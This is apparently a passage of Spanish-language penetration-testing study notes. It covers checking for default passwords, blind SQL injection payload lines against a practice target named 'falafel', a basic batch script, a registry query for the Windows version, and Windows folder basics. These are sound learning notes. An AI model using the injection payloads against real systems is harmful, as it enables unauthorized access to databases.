 Pues asi como revisas siempre si hay contraseñas por defecto tambien esta bien que intentes ver si el proyecto es open source y si puedes aprobechar eso.


## SQLI Blind

En este ejemplo ya tenemos un usuario valido 'admin' el mensaje si no es correcto es try again si es correcto es Wrong identification. (falafel)

```bash
admin' and substring(username,1,1)='a'-- # va a dar true o el mensaje
admin' and substring(username,2,1)='d'-- # va a dar true o el mensaje
```

## Scrips de bat

Este es el script mas basico de bat

```
@echo off
echo Hola Mundo
pause
```


# Windows

## Version

Saber version de windows desde el registro en caso de que no se pueda usar systeminfo

```
reg query "hklm\software\microsoft\windows nt\currentversion" /v ProductName
```

## Program files

Program Files: Esta carpeta está destinada para los programas de 64 bits. Cuando instalas una aplicación de 64 bits en un sistema de 64 bits, por defecto se ubicará en esta carpeta.

Program Files (x86): Esta carpeta es para los programas de 32 bits. En un sistema operativo de 64 bits, las aplicaciones de 32 bits se instalan en esta carpeta para mantenerlas separadas de las aplicaciones de 64 bits.

## ProgramData

La carpeta C:\ProgramData en Windows es una carpeta del sistema que se utiliza para almacenar datos globales de aplicaciones, es decir, datos que no son específicos de un solo usuario y que pueden ser utilizados por todas las cuentas en el sistema.

## Tree

Este comando es super util permite ver los  directorios como el comanod de linux ideal para buscar cosas
